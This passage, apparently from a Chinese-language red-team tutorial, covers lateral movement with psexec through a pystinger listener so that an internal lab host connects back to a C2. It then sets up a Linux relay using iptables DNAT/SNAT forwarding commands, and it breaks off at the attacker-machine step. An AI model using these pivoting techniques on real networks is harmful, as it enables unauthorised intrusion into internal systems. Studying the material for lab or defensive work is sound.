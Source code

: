 使用psexec横向移动，选择listener为pystinger，或者直接生成payload在业务主机执行，业务内网主机192.168.111.236即可成功上线：

![image-20220517182051748.png](assets/attach-00a1eb6398d789d33de19c773732b7c5b93b5cdc.png)

![image-20220517181145075.png](assets/attach-a15c80ddf9b4b504f229f09054527ab06002bbfa.png)

## 补充：中转机器为Linux

### HTTP代理(中转机器不需要上线即可)

使用方法与上面方法三一样。只不过要使用iptables转发：

```php
echo 1 >/proc/sys/net/ipv4/ip_forward
iptables -A PREROUTING -p tcp -d 192.168.111.131 --dport 822 -j DNAT --to-destination 192.168.1.88:8080

iptables -A POSTROUTING -p tcp -d 192.168.1.88 --dport 8080 -j SNAT --to-source 192.168.111.131
```

**测试：**

中转机器(192.168.111.142)

![image-20220423214555465.png](assets/attach-1c70fe51e413d29ff29bd6ae1e071d21089a8975.png)

攻击机
